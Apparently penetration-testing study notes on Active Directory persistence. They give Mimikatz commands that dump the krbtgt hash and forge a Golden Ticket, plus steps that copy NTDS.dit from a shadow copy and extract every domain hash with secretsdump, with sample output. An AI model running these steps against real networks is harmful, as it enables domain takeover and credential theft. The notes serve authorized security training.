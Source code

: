 # Active Directory Persistence

Techniques aimed at maintaining an attacker's foothold on the target network.
Could be employed during penetration testing or red-teaming exercises whose rules of engagement mandate we retain long-term access to the compromised environment.

- <https://attack.mitre.org/tactics/TA0003/>




## Golden Ticket
If we can get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.

Although this technique's name resembles the Silver Ticket, Golden Tickets provide a more powerful attack vector.

While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain's resources.


The best advantage is that the krbtgt account password is not automatically changed. This password is only changed when the DOMAIN FUNCTIONAL LEVEL is upgraded from a pre-2008 Windows server, but not from a newer version. Because of this, it is not uncommon to find very old krbtgt password hashes.
(The Domain Functional Level dictates the capabilities of the domain and determines which Windows operating systems can be run on the domain controller. Higher functional levels enable additional features, functionality, and security mitigations. See: <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels>)




Require us to have access to a Domain Admin's group account or to have compromised the domain controller itself:
```
privilege::debug
lsadump::lsa /patch

# Output:
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

We obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket.


Now on the normal user account:
```
kerberos::purge

kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt



misc::cmd
```



With the golden ticket injected into memory, let's use `PsExec` to launch a new command prompt with `misc::cmd`.

```
PsExec.exe \\dc1 cmd.exe
ipconfig
whoami
```

We now have an interactive command prompt on the domain controller. Now let's use the whoami command to verify that our user jen is now part of the Domain Admin group.


Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication.


If we were to connect `PsExec` to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked.










## Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

- <https://en.wikipedia.org/wiki/Shadow_Copy>


To manage volume shadow copies, the Microsoft signed binary vshadow.exe is offered as part of the Windows SDK.

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.



Connected as domain admin user to the DC1 domain controller, launch an elevated command prompt and run the vshadow utility with `-nw` options to disable writers, which speeds up backup creation and include the `-p` option to store the copy on disk.

```
vshadow.exe -nw -p  C:

# Output:
...
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...
```

Once the snapshot has been taken successfully, we should take note of the shadow copy device name.
Then copy the whole AD Database from the shadow copy to the `C:` drive root folder by specifying the shadow copy device name and adding the full `ntds.dit` path.
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Finally, to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the `reg` utility and the `save` argument.
```
reg.exe save hklm\system c:\system.bak
```


Once the two `.bak` files are moved to our Kali machine, we can continue extracting the credential materials with the `secretsdump` tool from the `impacket` suite. We'll supply the ntds database with the `-ntds` parameter and the system hive with the `-system` parameter. Then we will tell impact to parse the files locally by adding the LOCAL keyword.

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user. We can now try to crack them or use as-is in pass-the-hash attacks!


NOTE: while these methods might work fine, they leave an access trail and may require us to upload tools.

An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation. To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method. This is a less conspicuous persistence technique that we can misuse.













